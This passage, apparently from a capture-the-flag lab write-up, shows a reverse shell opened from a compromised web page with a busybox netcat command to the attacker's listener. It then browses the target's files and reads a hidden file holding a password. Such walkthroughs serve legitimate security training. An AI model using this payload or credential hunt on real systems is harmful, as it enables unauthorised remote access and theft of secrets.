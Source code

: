### Command Execution

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access :

![Pasted image 20250723184412.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250723184412.png)

#### Reverse Shell

We set up our listener and execute the payload on the site, i used this and worked :

```bash
busybox nc 10.8.162.183 1337 -e sh             'https://www.revshells.com/'
```

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ nc -lvnp 1337             
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.144.132] 33006
ls
2591c98b70119fe624898b1e424b5e91.php
administrator.php
index.html
cd ..
ls
html
cd ..
ls
backups
cache
hidden
lib
local
lock
log
mail
opt
run
spool
tmp
www
cd hidden
ls
pass
cat pass
'pinguapingu'


cd home
l
ls
```